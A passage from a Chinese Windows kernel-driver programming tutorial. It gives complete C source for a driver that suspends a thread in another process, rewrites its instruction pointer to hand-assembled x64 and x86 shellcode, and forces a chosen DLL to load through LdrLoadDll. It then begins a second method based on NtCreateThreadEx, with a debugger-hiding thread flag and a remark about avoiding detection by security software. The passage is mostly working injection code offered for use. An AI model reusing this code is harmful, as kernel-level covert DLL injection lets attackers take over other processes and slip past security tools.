                        DbgPrint("[*] 执行 [ %p ] 线程函数 \n", pCurrentContext->Eip);
                    }
                }
                __except (EXCEPTION_EXECUTE_HANDLER) {}

                // 恢复线程
                g_PsResumeThread(threadObj, NULL);
                ObDereferenceObject(threadObj);
            }
            NtClose(threadHandle);
        }

        // 关闭线程
        KeUnstackDetachProcess(&kApc);
        ObDereferenceObject(pEprocess);
    }
    return STATUS_SUCCESS;
}

NTSTATUS UnDriver(PDRIVER_OBJECT driver)
{
    UNREFERENCED_PARAMETER(driver);
    return STATUS_SUCCESS;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    UNREFERENCED_PARAMETER(RegistryPath);

    // 初始化基址
    InitAddress(Driver);

    ULONG ProcessID = 4904;
    PVOID AllcateAddress = NULL;
    DWORD create_size = 1024;

    // 申请堆 《内核远程堆分配与销毁》核心代码
    NTSTATUS Status = AllocMemory(ProcessID, create_size, &AllcateAddress);

    // 执行ShellCode线程注入
    Status = GetCurrentContext(ProcessID, &AllcateAddress);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行如上代码片段，则将输出进程`ID=4904`的当前进程内，线程上下文RIP地址，输出效果如下图所示；



**5.KernelInjectDLL 实现驱动注入**

如上代码中我们已经找到了驱动注入时所需用到的关键函数，那么实现代码就变得很容易了，驱动注入的实现方式有很多种，不论哪一种其实现的难度并不在于代码本身，而在于某些结构如何正确的被找到，一旦结构被找到原理方面的代码可以说非常容易获取到，如下这段完整代码则是驱动注入的一个简化版，如果你觉得不方便完全可以自行添加IOCTL控制器让其更易于使用，此处为了节约篇幅不在增加冗余代码，代码已做具体分析和备注。

此注入驱动核心实现代码如下所示，其中`SearchOPcode`用于在内核模块中寻找符合条件的内存地址，`GetNativeCode`则用于生成一段可被调用的`ShellCode`代码，此代码执行的目的就是将DLL动态装载到对端内存中，`SetThreadStartAddress`则用于填充执行线程结构信息，`GetUserModule`用户获取进程内特定模块的基址，`GetModuleExport`用于在模块内寻找特定函数的基址，`KernelInjectDLL`则是最终注入函数，其首先将线程暂停，并注入生成的`ShellCode`，然后恢复线程让`ShellCode`跑起来，当`ShellCode`跑起来后将会自动的将特定目录下的DLL拉起来，以此来实现动态加载的目的。
```c
#include "lyshark.h"

// 内核特征码定位函数封装
PVOID SearchOPcode(PDRIVER_OBJECT pObj, PWCHAR DriverName, PCHAR sectionName, PUCHAR opCode, int len, int offset)
{
    PVOID dllBase = NULL;
    UNICODE_STRING uniDriverName;
    PKLDR_DATA_TABLE_ENTRY firstentry;

    // 获取驱动入口
    PKLDR_DATA_TABLE_ENTRY entry = (PKLDR_DATA_TABLE_ENTRY)pObj->DriverSection;

    firstentry = entry;
    RtlInitUnicodeString(&uniDriverName, DriverName);

    // 开始遍历
    while ((PKLDR_DATA_TABLE_ENTRY)entry->InLoadOrderLinks.Flink != firstentry)
    {
        // 如果找到了所需模块则将其基地址返回
        if (entry->FullDllName.Buffer != 0 && entry->BaseDllName.Buffer != 0)
        {
            if (RtlCompareUnicodeString(&uniDriverName, &(entry->BaseDllName), FALSE) == 0)
            {
                dllBase = entry->DllBase;
                break;
            }
        }
        entry = (PKLDR_DATA_TABLE_ENTRY)entry->InLoadOrderLinks.Flink;
    }

    if (dllBase)
    {
        __try
        {
            // 载入模块基地址
            PIMAGE_DOS_HEADER ImageDosHeader = (PIMAGE_DOS_HEADER)dllBase;
            if (ImageDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
            {
                return NULL;
            }
            // 得到模块NT头
            PIMAGE_NT_HEADERS64 pImageNtHeaders64 = (PIMAGE_NT_HEADERS64)((PUCHAR)dllBase + ImageDosHeader->e_lfanew);

            // 获取节表头
            PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((PUCHAR)pImageNtHeaders64 + sizeof(pImageNtHeaders64->Signature) + sizeof(pImageNtHeaders64->FileHeader) + pImageNtHeaders64->FileHeader.SizeOfOptionalHeader);

            PUCHAR endAddress = 0;
            PUCHAR starAddress = 0;

            // 寻找符合条件的节
            for (int i = 0; i < pImageNtHeaders64->FileHeader.NumberOfSections; i++)
            {
                // 寻找符合条件的表名
                if (memcmp(sectionName, pSectionHeader->Name, strlen(sectionName) + 1) == 0)
                {
                    // 取出开始和结束地址
                    starAddress = pSectionHeader->VirtualAddress + (PUCHAR)dllBase;
                    endAddress = pSectionHeader->VirtualAddress + (PUCHAR)dllBase + pSectionHeader->SizeOfRawData;
                    break;
                }
                // 遍历下一个节
                pSectionHeader++;
            }
            if (endAddress && starAddress)
            {
                // 找到会开始寻找特征
                for (; starAddress < endAddress - len - 1; starAddress++)
                {
                    // 验证访问权限
                    if (MmIsAddressValid(starAddress))
                    {
                        int i = 0;
                        for (; i < len; i++)
                        {
                            // 判断是否为通配符'*'
                            if (opCode[i] == 0x2a)
                                continue;

                            // 找到了一个字节则跳出
                            if (opCode[i] != starAddress[i])
                                break;
                        }
                        // 找到次数完全匹配则返回地址
                        if (i == len)
                        {
                            return starAddress + offset;
                        }
                    }
                }
            }
        }
        __except (EXCEPTION_EXECUTE_HANDLER) {}
    }

    return NULL;
}

// 生成64位注入代码
PINJECT_BUFFER GetNativeCode(PVOID LdrLoadDll, PUNICODE_STRING DllFullPath, ULONGLONG orgEip)
{
    SIZE_T Size = PAGE_SIZE;
    PINJECT_BUFFER InjectBuffer = NULL;
    UCHAR Code[] = {
        0x41, 0x57,                             // push r15
        0x41, 0x56,                             // push r14
        0x41, 0x55,                             // push r13
        0x41, 0x54,                             // push r12
        0x41, 0x53,                             // push r11
        0x41, 0x52,                             // push r10
        0x41, 0x51,                             // push r9
        0x41, 0x50,                             // push r8
        0x50,                                   // push rax
        0x51,                                   // push rcx
        0x53,                                   // push rbx
        0x52,                                   // push rdx
        0x55,                                   // push rbp
        0x54,                                   // push rsp
        0x56,                                   // push rsi
        0x57,                                   // push rdi
        0x66, 0x9C,                             // pushf
        0x48, 0x83, 0xEC, 0x26,                 // sub rsp, 0x28
        0x48, 0x31, 0xC9,                       // xor rcx, rcx
        0x48, 0x31, 0xD2,                       // xor rdx, rdx
        0x49, 0xB8, 0, 0, 0, 0, 0, 0, 0, 0,     // mov r8, ModuleFileName   offset +38
        0x49, 0xB9, 0, 0, 0, 0, 0, 0, 0, 0,     // mov r9, ModuleHandle     offset +48
        0x48, 0xB8, 0, 0, 0, 0, 0, 0, 0, 0,     // mov rax, LdrLoadDll      offset +58
        0xFF, 0xD0,                             // call rax
        0x48, 0xBA, 0, 0, 0, 0, 0, 0, 0, 0,     // mov rdx, COMPLETE_OFFSET offset +70
        0xC7, 0x02, 0x7E, 0x1E, 0x37, 0xC0,     // mov [rdx], CALL_COMPLETE 
        0x48, 0xBA, 0, 0, 0, 0, 0, 0, 0, 0,     // mov rdx, STATUS_OFFSET   offset +86
        0x89, 0x02,                             // mov [rdx], eax
        0x48, 0x83, 0xC4, 0x26,                 // add rsp, 0x28
        0x66, 0x9D,                             // popf
        0x5F,                                   // pop rdi
        0x5E,                                   // pop rsi 
        0x5C,                                   // pop rsp
        0x5D,                                   // pop rbp
        0x5A,                                   // pop rdx
        0x5B,                                   // pop rbx
        0x59,                                   // pop rcx
        0x58,                                   // pop rax
        0x41, 0x58,                             // pop r8
        0x41, 0x59,                             // pop r9
        0x41, 0x5A,                             // pop r10
        0x41, 0x5B,                             // pop r11
        0x41, 0x5C,                             // pop r12
        0x41, 0x5D,                             // pop r13
        0x41, 0x5E,                             // pop r14
        0x41, 0x5F,                             // pop r15
        0x50,                                   // push rax
        0x50,                                   // push rax 
        0x48, 0xB8, 0, 0, 0, 0, 0, 0, 0, 0,     // mov rax, orgEip offset +130
        0x48, 0x89, 0x44, 0x24, 0x08,           // mov [rsp+8],rax
        0x58,                                   // pop rax
        0xC3                                    // ret
    };

    // 在当前进程内分配内存空间
    if (NT_SUCCESS(ZwAllocateVirtualMemory(ZwCurrentProcess(), &InjectBuffer, 0, &Size, MEM_COMMIT, PAGE_EXECUTE_READWRITE)))
    {
        // 初始化路径变量与长度参数
        PUNICODE_STRING UserPath = &InjectBuffer->Path;
        UserPath->Length = DllFullPath->Length;
        UserPath->MaximumLength = DllFullPath->MaximumLength;
        UserPath->Buffer = InjectBuffer->Buffer;

        RtlUnicodeStringCopy(UserPath, DllFullPath);

        // 将ShellCode拷贝到InjectBuffer中等待处理
        memcpy(InjectBuffer, Code, sizeof(Code));

        // 修改代码模板，将指定位置替换为我们自己的代码
        *(ULONGLONG*)((PUCHAR)InjectBuffer + 38) = (ULONGLONG)UserPath;
        *(ULONGLONG*)((PUCHAR)InjectBuffer + 48) = (ULONGLONG)& InjectBuffer->ModuleHandle;
        *(ULONGLONG*)((PUCHAR)InjectBuffer + 58) = (ULONGLONG)LdrLoadDll;
        *(ULONGLONG*)((PUCHAR)InjectBuffer + 70) = (ULONGLONG)& InjectBuffer->Complete;
        *(ULONGLONG*)((PUCHAR)InjectBuffer + 86) = (ULONGLONG)& InjectBuffer->Status;
        *(ULONGLONG*)((PUCHAR)InjectBuffer + 130) = orgEip;

        return InjectBuffer;
    }
    return NULL;
}

// 生成32位注入代码
PINJECT_BUFFER GetWow64Code(PVOID LdrLoadDll, PUNICODE_STRING DllFullPath, ULONG orgEip)
{
    SIZE_T Size = PAGE_SIZE;
    PINJECT_BUFFER InjectBuffer = NULL;

    UCHAR Code[] = {
        0x60,                                   // pushad
        0x9c,                                   // pushfd
        0x68, 0, 0, 0, 0,                       // push ModuleHandle            offset +3 
        0x68, 0, 0, 0, 0,                       // push ModuleFileName          offset +8
        0x6A, 0,                                // push Flags  
        0x6A, 0,                                // push PathToFile
        0xE8, 0, 0, 0, 0,                       // call LdrLoadDll              offset +17
        0xBA, 0, 0, 0, 0,                       // mov edx, COMPLETE_OFFSET     offset +22
        0xC7, 0x02, 0x7E, 0x1E, 0x37, 0xC0,     // mov [edx], CALL_COMPLETE     
        0xBA, 0, 0, 0, 0,                       // mov edx, STATUS_OFFSET       offset +33
        0x89, 0x02,                             // mov [edx], eax
        0x9d,                                   // popfd
        0x61,                                   // popad
        0x50,                                   // push eax
        0x50,                                   // push eax
        0xb8, 0, 0, 0, 0,                       // mov eax, orgEip
        0x89, 0x44, 0x24, 0x04,                 // mov [esp+4],eax
        0x58,                                   // pop eax
        0xc3                                    // ret
    };

    /*
    如下代码中通过定义Code并写入调用模块加载的汇编指令集，通过运用ZwAllocateVirtualMemory在当前进程也就是附加到对端以后的进程内动态开辟了一块长度为Size的内存空间并赋予了PAGE_EXECUTE_READWRITE读写执行属性，
    由于Code代码无法直接使用，则此处调用RtlCopyMemory将指令拷贝到了InjectBuffer其目的是用于后续的填充工作，最后通过*(ULONG*)((PUCHAR)InjectBuffer + 3)的方式将需要使用的函数地址，
    模块信息等依次填充到汇编代码的指定位置，并返回InjectBuffer指针。
    */

    // 在当前进程内分配内存空间
    if (NT_SUCCESS(ZwAllocateVirtualMemory(ZwCurrentProcess(), &InjectBuffer, 0, &Size, MEM_COMMIT, PAGE_EXECUTE_READWRITE)))
    {
        // 初始化路径变量与长度参数
        PUNICODE_STRING32 pUserPath = &InjectBuffer->Path32;
        pUserPath->Length = DllFullPath->Length;
        pUserPath->MaximumLength = DllFullPath->MaximumLength;
        pUserPath->Buffer = (ULONG)(ULONG_PTR)InjectBuffer->Buffer;

        // 将ShellCode拷贝到InjectBuffer中等待处理
        memcpy((PVOID)pUserPath->Buffer, DllFullPath->Buffer, DllFullPath->Length);
        memcpy(InjectBuffer, Code, sizeof(Code));

        // 修改代码模板，将指定位置替换为我们自己的代码
        *(ULONG*)((PUCHAR)InjectBuffer + 3) = (ULONG)(ULONG_PTR)& InjectBuffer->ModuleHandle;
        *(ULONG*)((PUCHAR)InjectBuffer + 8) = (ULONG)(ULONG_PTR)pUserPath;
        *(ULONG*)((PUCHAR)InjectBuffer + 17) = (ULONG)((ULONG_PTR)LdrLoadDll - ((ULONG_PTR)InjectBuffer + 17) - 5 + 1);
        *(ULONG*)((PUCHAR)InjectBuffer + 22) = (ULONG)(ULONG_PTR)& InjectBuffer->Complete;
        *(ULONG*)((PUCHAR)InjectBuffer + 33) = (ULONG)(ULONG_PTR)& InjectBuffer->Status;
        *(ULONG*)((PUCHAR)InjectBuffer + 44) = orgEip;
        return InjectBuffer;
    }

    return NULL;
}

// 设置线程执行地址
NTSTATUS SetThreadStartAddress(PETHREAD pEthread, BOOLEAN isWow64, PVOID LdrLoadDll, PUNICODE_STRING DllFullPath, PINJECT_BUFFER *allcateAddress)
{
    __try
    {
        // 判断是32位则执行
        if (isWow64)
        {
            // 得到线程TEB
            PVOID pTeb = g_PsGetThreadTeb(pEthread);
            if (pTeb)
            {
                // 得到当前线程上下文
                PWOW64_CONTEXT  pCurrentContext = (PWOW64_CONTEXT)(*(ULONG64*)((ULONG64)pTeb + WOW64CONTEXTOFFSET));

                // 检查上下文是否可读
                ProbeForRead((PVOID)pCurrentContext, sizeof(pCurrentContext), sizeof(CHAR));

                // 生成注入代码
                PINJECT_BUFFER newAddress = GetWow64Code(LdrLoadDll, DllFullPath, pCurrentContext->Eip);
                if (newAddress)
                {
                    // 替换上下文地址到内存中
                    newAddress->orgRipAddress = (ULONG64)& (pCurrentContext->Eip);
                    newAddress->orgRip = pCurrentContext->Eip;
                    *allcateAddress = newAddress;
                    pCurrentContext->Eip = (ULONG)(ULONG64)(newAddress);
                }
                return STATUS_SUCCESS;
            }
        }
        // 执行64位代码
        else
        {
            // 验证地址是否可读取
            if (MmIsAddressValid((PVOID)* (ULONG64*)((ULONG64)pEthread + INITIALSTACKOFFSET)))
            {
                // 当前TID
                PKTRAP_FRAME pCurrentTrap = (PKTRAP_FRAME)(*(ULONG64*)((ULONG64)pEthread + INITIALSTACKOFFSET) - sizeof(KTRAP_FRAME));

                // 生成注入代码
                PINJECT_BUFFER newAddress = GetNativeCode(LdrLoadDll, DllFullPath, pCurrentTrap->Rip);
                if (newAddress)
                {
                    // 替换当前RIP地址
                    newAddress->orgRipAddress = (ULONG64)& (pCurrentTrap->Rip);
                    newAddress->orgRip = pCurrentTrap->Rip;
                    *allcateAddress = newAddress;
                    pCurrentTrap->Rip = (ULONG64)newAddress;
                }
            }
            return STATUS_SUCCESS;
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {}

    return STATUS_UNSUCCESSFUL;
}

// 得到当前用户进程下的模块基址
PVOID GetUserModule(IN PEPROCESS EProcess, IN PUNICODE_STRING ModuleName, IN BOOLEAN IsWow64)
{
    if (EProcess == NULL)
        return NULL;
    __try
    {
        // 执行32位
        if (IsWow64)
        {
            // 获取32位下的PEB进程环境块
            PPEB32 Peb32 = (PPEB32)g_PsGetProcessWow64Process(EProcess);
            if (Peb32 == NULL)
                return NULL;

            if (!Peb32->Ldr)
                return NULL;

            // 循环遍历链表 寻找模块
            for (PLIST_ENTRY32 ListEntry = (PLIST_ENTRY32)((PPEB_LDR_DATA32)Peb32->Ldr)->InLoadOrderModuleList.Flink;
                ListEntry != &((PPEB_LDR_DATA32)Peb32->Ldr)->InLoadOrderModuleList;
                ListEntry = (PLIST_ENTRY32)ListEntry->Flink)
            {
                UNICODE_STRING UnicodeString;
                PLDR_DATA_TABLE_ENTRY32 LdrDataTableEntry32 = CONTAINING_RECORD(ListEntry, LDR_DATA_TABLE_ENTRY32, InLoadOrderLinks);

                // 初始化模块名
                RtlUnicodeStringInit(&UnicodeString, (PWCH)LdrDataTableEntry32->BaseDllName.Buffer);

                // 对比模块名是否符合
                if (RtlCompareUnicodeString(&UnicodeString, ModuleName, TRUE) == 0)
                    return (PVOID)LdrDataTableEntry32->DllBase;
            }
        }
        // 执行64位
        else
        {
            // 得到64位PEB进程环境块
            PPEB Peb = PsGetProcessPeb(EProcess);
            if (!Peb)
                return NULL;

            if (!Peb->Ldr)
                return NULL;

            // 开始遍历模块
            for (PLIST_ENTRY ListEntry = Peb->Ldr->InLoadOrderModuleList.Flink;
                ListEntry != &Peb->Ldr->InLoadOrderModuleList;
                ListEntry = ListEntry->Flink)
            {
                // 得到表头
                PLDR_DATA_TABLE_ENTRY LdrDataTableEntry = CONTAINING_RECORD(ListEntry, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

                // 判断是否是所需要的模块
                if (RtlCompareUnicodeString(&LdrDataTableEntry->BaseDllName, ModuleName, TRUE) == 0)
                    return LdrDataTableEntry->DllBase;
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER){}

    return NULL;
}

// 根据函数名得到导出表地址
PVOID GetModuleExport(IN PVOID ModuleBase, IN PCCHAR FunctionName)
{
    PIMAGE_DOS_HEADER ImageDosHeader = (PIMAGE_DOS_HEADER)ModuleBase;
    PIMAGE_NT_HEADERS32 ImageNtHeaders32 = NULL;
    PIMAGE_NT_HEADERS64 ImageNtHeaders64 = NULL;
    PIMAGE_EXPORT_DIRECTORY ImageExportDirectory = NULL;
    ULONG ExportDirectorySize = 0;
    ULONG_PTR FunctionAddress = 0;

    if (ModuleBase == NULL)
        return NULL;

    __try
    {
        // 判断是否是DOS头
        if (ImageDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
        {
            return NULL;
        }

        // 获取PE结构节NT头
        ImageNtHeaders32 = (PIMAGE_NT_HEADERS32)((PUCHAR)ModuleBase + ImageDosHeader->e_lfanew);
        ImageNtHeaders64 = (PIMAGE_NT_HEADERS64)((PUCHAR)ModuleBase + ImageDosHeader->e_lfanew);

        // 判断是否是64位
        if (ImageNtHeaders64->OptionalHeader.Magic == IMAGE_NT_OPTIONAL_HDR64_MAGIC)
        {
            // 如果是64位则执行如下
            ImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(ImageNtHeaders64->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress + (ULONG_PTR)ModuleBase);
            ExportDirectorySize = ImageNtHeaders64->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size;
        }
        else
        {
            // 如果32位则执行如下
            ImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(ImageNtHeaders32->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress + (ULONG_PTR)ModuleBase);
            ExportDirectorySize = ImageNtHeaders32->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size;
        }

        // 取出导出表Index，名字，函地址等
        PUSHORT pAddressOfOrds = (PUSHORT)(ImageExportDirectory->AddressOfNameOrdinals + (ULONG_PTR)ModuleBase);
        PULONG  pAddressOfNames = (PULONG)(ImageExportDirectory->AddressOfNames + (ULONG_PTR)ModuleBase);
        PULONG  pAddressOfFuncs = (PULONG)(ImageExportDirectory->AddressOfFunctions + (ULONG_PTR)ModuleBase);

        // 循环导出表
        for (ULONG i = 0; i < ImageExportDirectory->NumberOfFunctions; ++i)
        {
            USHORT OrdIndex = 0xFFFF;
            PCHAR  pName = NULL;

            // 说明是序号导出
            if ((ULONG_PTR)FunctionName <= 0xFFFF)
            {
                // 得到函数序号
                OrdIndex = (USHORT)i;
            }
            // 说明是名字导出
            else if ((ULONG_PTR)FunctionName > 0xFFFF && i < ImageExportDirectory->NumberOfNames)
            {
                // 得到函数名
                pName = (PCHAR)(pAddressOfNames[i] + (ULONG_PTR)ModuleBase);
                OrdIndex = pAddressOfOrds[i];
            }

            else
                return NULL;

            // 判断函数名是否符合
            if (((ULONG_PTR)FunctionName <= 0xFFFF && (USHORT)((ULONG_PTR)FunctionName) == OrdIndex + ImageExportDirectory->Base) ||
                ((ULONG_PTR)FunctionName > 0xFFFF && strcmp(pName, FunctionName) == 0))
            {
                // 得到完整地址
                FunctionAddress = pAddressOfFuncs[OrdIndex] + (ULONG_PTR)ModuleBase;
                break;
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER){}

    return (PVOID)FunctionAddress;
}

// DLL模块注入线程函数
NTSTATUS KernelInjectDLL(ULONG pid, PUNICODE_STRING DllFullPath, PINJECT_BUFFER* allcateAddress)
{
    PEPROCESS pEprocess = NULL;

    // 根据PID得到进程Eprocess结构
    if (NT_SUCCESS(PsLookupProcessByProcessId((HANDLE)pid, &pEprocess)))
    {
        KAPC_STATE kApc = { 0 };

        // 附加到进程内
        KeStackAttachProcess(pEprocess, &kApc);

        // 得到Ntdll.dll模块基址
        UNICODE_STRING ntdllString = RTL_CONSTANT_STRING(L"Ntdll.dll");
        PVOID NtdllAddress = GetUserModule(pEprocess, &ntdllString, g_PsGetProcessWow64Process(pEprocess) != 0);
        if (!NtdllAddress)
        {
            // 失败了则直接脱离附加
            KeUnstackDetachProcess(&kApc);
            ObDereferenceObject(pEprocess);
            return STATUS_UNSUCCESSFUL;
        }

        // 得到LdrLoadDLL模块的基址
        PVOID LdrLoadDll = GetModuleExport(NtdllAddress, "LdrLoadDll");
        if (!LdrLoadDll)
        {
            KeUnstackDetachProcess(&kApc);
            ObDereferenceObject(pEprocess);
            return STATUS_UNSUCCESSFUL;
        }

        HANDLE threadHandle = NULL;

        // 得到当前正在运行的线程上下文
        if (NT_SUCCESS(g_ZwGetNextThread((HANDLE)-1, (HANDLE)0, 0x1FFFFF, 0x240, 0, &threadHandle)))
        {
            PVOID threadObj = NULL;

            // 在对象句柄上提供访问验证，如果可以授予访问权限，则返回指向对象的正文的相应指针。
            NTSTATUS state = ObReferenceObjectByHandle(threadHandle, 0x1FFFFF, *PsThreadType, KernelMode, &threadObj, NULL);
            if (NT_SUCCESS(state))
            {
                // 暂停线程
                g_PsSuspendThread(threadObj, NULL);

                // 设置线程ShellCode代码
                SetThreadStartAddress(threadObj, g_PsGetProcessWow64Process(pEprocess) != 0, LdrLoadDll, DllFullPath, allcateAddress);

                // 恢复线程
                g_PsResumeThread(threadObj, NULL);
                ObDereferenceObject(threadObj);
            }
            NtClose(threadHandle);
        }

        // 关闭线程
        KeUnstackDetachProcess(&kApc);
        ObDereferenceObject(pEprocess);
    }
    return STATUS_SUCCESS;
}

NTSTATUS UnDriver(PDRIVER_OBJECT driver)
{
    UNREFERENCED_PARAMETER(driver);
    return STATUS_SUCCESS;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    UNREFERENCED_PARAMETER(RegistryPath);

    // -----------------------------------------------------------------------
    // 初始化
    // -----------------------------------------------------------------------
    UCHAR SuspendOpCode[] = { 0x48, 0x8b, 0xf9, 0x83, 0x64, 0x24, 0x20, 0x00, 0x65, 0x48, 0x8b, 0x34, 0x25, 0x88, 0x01 };
    UCHAR ResumeOpCode[] = { 0x48, 0x8b, 0xf9, 0xe8, 0xee, 0x4f, 0xa5, 0xff, 0x65, 0x48, 0x8b, 0x14, 0x25, 0x88 };

    // 特征码检索PsSuspendThread函数基址
    g_PsSuspendThread = (PPsSuspendThread)SearchOPcode(Driver, L"ntoskrnl.exe", "PAGE", SuspendOpCode, sizeof(SuspendOpCode), -24);
    DbgPrint("PsSuspendThread = %p \n", g_PsSuspendThread);

    // 特征码检索PsResumeThread基址
    g_PsResumeThread = (PPsResumeThread)SearchOPcode(Driver, L"ntoskrnl.exe", "PAGE", ResumeOpCode, sizeof(ResumeOpCode), -18);
    DbgPrint("PsResumeThread = %p \n", g_PsResumeThread);

    // 动态获取内存中的ZwGetNextThread基址
    UNICODE_STRING ZwGetNextThreadString = RTL_CONSTANT_STRING(L"ZwGetNextThread");
    g_ZwGetNextThread = (PZwGetNextThread)MmGetSystemRoutineAddress(&ZwGetNextThreadString);
    DbgPrint("ZwGetNextThread = %p \n", g_ZwGetNextThread);

    // 动态获取内存中的PsGetThreadTeb基址
    UNICODE_STRING PsGetThreadTebString = RTL_CONSTANT_STRING(L"PsGetThreadTeb");
    g_PsGetThreadTeb = (PPsGetThreadTeb)MmGetSystemRoutineAddress(&PsGetThreadTebString);
    DbgPrint("PsGetThreadTeb = %p \n", g_PsGetThreadTeb);

    // 动态获取内存中的PsGetProcessWow64Process基址
    UNICODE_STRING PsGetProcessWow64ProcessString = RTL_CONSTANT_STRING(L"PsGetProcessWow64Process");
    g_PsGetProcessWow64Process = (PPsGetProcessWow64Process)MmGetSystemRoutineAddress(&PsGetProcessWow64ProcessString);
    DbgPrint("PsGetProcessWow64Process = %p \n", g_PsGetProcessWow64Process);

    // -----------------------------------------------------------------------
    // 注入代码
    // -----------------------------------------------------------------------

    ULONG ProcessID = 984;
    UNICODE_STRING InjectDllPath = RTL_CONSTANT_STRING(L"C:\\Users\\lyshark\\Desktop\\hook.dll");
    PINJECT_BUFFER AllcateAddress = NULL;

    // 执行线程注入
    NTSTATUS Status = KernelInjectDLL(ProcessID, &InjectDllPath, &AllcateAddress);
    if (Status == STATUS_SUCCESS)
    {
        DbgPrint("[*] 线程注入PID = %d | DLL = %wZ \n", ProcessID, InjectDllPath);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

首先你需要自行准备好一个DLL文件，此处我的是`hook.dll`将文件放入到桌面，然后设置`ProcessID`指定进程ID，设置`InjectDllPath`指定DLL路径，签名后将驱动加载起来，此时你会看到`WinDBG`中的输出，且应用层的进程也会弹出`hello lyshark`的消息，说明注入成功了，如下图所示；



### 9.9 内核远程线程实现DLL注入

在笔者上一篇文章`《内核RIP劫持实现DLL注入》`介绍了通过劫持RIP指针控制程序执行流实现插入DLL的目的，本章将继续探索全新的注入方式，通过`NtCreateThreadEx`这个内核函数实现注入DLL的目的，需要注意的是该函数在微软系统中未被导出使用时需要首先得到该函数的入口地址，`NtCreateThreadEx`函数最终会调用`ZwCreateThread`，本章在寻找函数的方式上有所不同，前一章通过内存定位的方法得到所需地址，本章则是通过解析导出表实现。

内核导出表远程线程是一种实现DLL注入的常见技术之一。通过使用该技术，注入代码可以利用目标进程的导出表中已有的函数来加载DLL，并在远程线程中执行DLL代码，从而实现DLL注入。

具体而言，内核导出表远程线程实现DLL注入的过程包括以下步骤：

 - 打开目标进程，获取其进程句柄。
 - 在目标进程的内存空间中分配一段可执行代码的内存空间，将注入代码写入其中。
 - 通过GetProcAddress函数获取目标进程中已有的一个导出函数的地址，如LoadLibraryA等函数。
 - 在目标进程中创建一个远程线程，将获取到的导出函数地址作为线程的入口点，并将DLL路径等参数传递给导出函数。
 - 远程线程在目标进程中运行，并调用导出函数。导出函数会将DLL加载到目标进程的内存中，并返回DLL的句柄。
 - 远程线程继续执行注入代码，利用DLL的句柄和GetProcAddress函数获取目标函数的地址，从而实现DLL注入。

需要注意的是，内核导出表远程线程作为一种内核级别的注入技术，可能会被安全软件或操作系统检测到，并对其进行防御。因此，在使用这种技术进行DLL注入时，需要谨慎使用，并采取必要的安全措施，以防止被检测和防御。

在内核模式中实现这一过程的具体方法可分为如下步骤；

 - 1.通过`GetKeServiceDescriptorTable64`获取到SSDT表基址
 - 2.通过`KeStackAttachProcess`附加到远程进程内
 - 3.通过`GetUserModuleAddress`获取到`Ntdll.dll`模块内存基址
 - 4.通过`GetModuleExportAddress`获取到`LdrLoadDll`函数的内存地址
 - 5.调用`GetNative32Code`生成拉起特定DLL的`ShellCode`片段
 - 6.通过`NtCreateThreadEx`将`ShellCode`执行起来，并自动加载DLL
 - 7.通过`KeUnstackDetachProcess`取消附加远程进程，并做好最后的清理工作

首先需要定义一个标准头文件，并将其命名为`lyshark.h`其定义部分如下所示，此部分内容包含了微软官方结构定义，以及一些通用函数的规整，已做较为详细的分析和备注，由于前面课程中都有介绍，此处不再介绍具体原理，如果需要了解结构体内的含义，请去自行查阅微软官方文档。
```c
#include <ntifs.h>
#include <ntimage.h>
#include <ntstrsafe.h>

#define THREAD_CREATE_FLAGS_HIDE_FROM_DEBUGGER 0x00000004

// -----------------------------------------------------------------------------------
// 声明未导出函数
// -----------------------------------------------------------------------------------

NTKERNELAPI PPEB NTAPI PsGetProcessPeb(IN PEPROCESS Process);
NTKERNELAPI UCHAR* PsGetProcessImageFileName(IN PEPROCESS Process);
NTKERNELAPI PVOID NTAPI PsGetProcessWow64Process(IN PEPROCESS Process);
NTKERNELAPI HANDLE PsGetProcessInheritedFromUniqueProcessId(IN PEPROCESS Process);

NTSYSAPI NTSTATUS NTAPI ZwQueryInformationThread(
    IN HANDLE ThreadHandle, 
    IN THREADINFOCLASS ThreadInformationClass, 
    OUT PVOID ThreadInformation, 
    IN ULONG ThreadInformationLength, 
    OUT PULONG ReturnLength OPTIONAL
    );

typedef NTSTATUS(NTAPI* LPFN_NTCREATETHREADEX)(
    OUT PHANDLE ThreadHandle, 
    IN ACCESS_MASK DesiredAccess, 
    IN PVOID ObjectAttributes, 
    IN HANDLE ProcessHandle, 
    IN PVOID StartAddress, 
    IN PVOID Parameter, 
    IN ULONG Flags, 
    IN SIZE_T StackZeroBits, 
    IN SIZE_T SizeOfStackCommit, 
    IN SIZE_T SizeOfStackReserve, 
    OUT PVOID ByteBuffer
    );

// -----------------------------------------------------------------------------------
// 结构体声明
// -----------------------------------------------------------------------------------

// SSDT表结构
typedef struct _SYSTEM_SERVICE_TABLE
{
    PVOID       ServiceTableBase;
    PVOID       ServiceCounterTableBase;
    ULONGLONG   NumberOfServices;
    PVOID       ParamTableBase;
} SYSTEM_SERVICE_TABLE, *PSYSTEM_SERVICE_TABLE;

PSYSTEM_SERVICE_TABLE KeServiceDescriptorTable;

typedef struct _PEB_LDR_DATA32
{
    ULONG Length;
    UCHAR Initialized;
    ULONG SsHandle;
    LIST_ENTRY32 InLoadOrderModuleList;
    LIST_ENTRY32 InMemoryOrderModuleList;
    LIST_ENTRY32 InInitializationOrderModuleList;
} PEB_LDR_DATA32, *PPEB_LDR_DATA32;

